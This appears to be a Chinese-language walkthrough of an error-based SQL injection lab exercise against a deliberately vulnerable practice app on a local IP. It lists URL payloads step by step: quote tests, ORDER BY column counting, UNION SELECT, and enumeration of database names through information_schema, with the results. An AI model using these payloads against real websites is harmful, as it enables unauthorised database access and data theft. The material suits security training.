

# Less-01_显错注入_01
1. http://192.168.1.178/control/sqlinject/manifest_error.php?id=1 打开之后的链接
2. http://192.168.1.178/control/sqlinject/manifest_error.php?id=1 ‘  发生报错
3. http://192.168.1.178/control/sqlinject/manifest_error.php?id=1’--+ 根据提示，此时我们得到注入点
4. http://192.168.1.178/control/sqlinject/manifest_error.php?id=1‘ order by 2--+ 使用order by 语句得知，一共存在两列。
5. http://192.168.1.178/control/sqlinject/manifest_error.php?id=1‘ union select 1,2--+ 我们发现网页中，2被显示了出来。
6. http://192.168.1.178/control/sqlinject/manifest_error.php?id=1‘ union select 1, group_concat(schema_name) from information_schema.schemata--+  查库==》information_schema,mysql,performance_schema,test,webug,webug_sys,webug_width_byte
7. http://192.168.1.178/control/sqlinject/manifest_error.php?id=1‘ union select 1, database()--+查询当前使用的数据库==》webug